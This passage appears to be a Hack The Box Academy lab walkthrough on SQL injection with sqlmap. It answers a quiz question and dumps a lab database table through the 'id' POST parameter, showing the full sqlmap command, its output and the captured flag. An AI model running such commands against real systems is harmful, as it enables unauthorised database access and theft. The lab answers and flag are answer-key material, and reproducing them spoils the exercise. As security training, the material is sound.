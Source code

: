 ### "What's the fastest SQLi type?"

The fastest SQLi type is those that are `UNION query-based`:

![[HTB Solutions/CBBH/z. images/dca044fdc44b5959b3c02252508f020d_MD5.webp]]

Answer: `UNION query-based`

# Running SQLMap on an HTTP Request

## Question 1

### "What's the contents of table flag2? (Case #2)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #2":

![[HTB Solutions/CBBH/z. images/7f2e768618cd213b598c808c99555885_MD5.jpg]]

Students will notice that they need to exploit the SQLi in the `id` `POST` parameter:

![[HTB Solutions/CBBH/z. images/31bdc92a81dd0529c500a4d3bc205631_MD5.jpg]]

Thus, the `sqlmap` command will be as follows:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case2.php' --data 'id=1' --batch --dump
```

```
┌─[us-academy-1]─[10.10.14.25]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u "http://188.166.168.88:31227/case2.php" --data 'id=1' --batch --dump

        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

<SNIP>

Database: testdb
Table: flag2
[1 entry]
+----+----------------------------------------+
| id | content                                |
+----+----------------------------------------+
| 1  | HTB{700_much_c0n6r475_0n_p057_r3qu357} |
+----+----------------------------------------+

[19:27:11] [INFO] table 'testdb.flag2' dumped to CSV file '/home/htb-ac413848/.local/share/sqlmap/output/188.166.168.88/dump/testdb/flag2.csv'
[19:27:11] [INFO] fetched data logged to text files under '/home/htb-ac413848/.local/share/sqlmap/output/188.166.168.88'
[19:27:11] [WARNING] your sqlmap version is outdated

[*] ending @ 19:27:11 /2022-07-14/
```
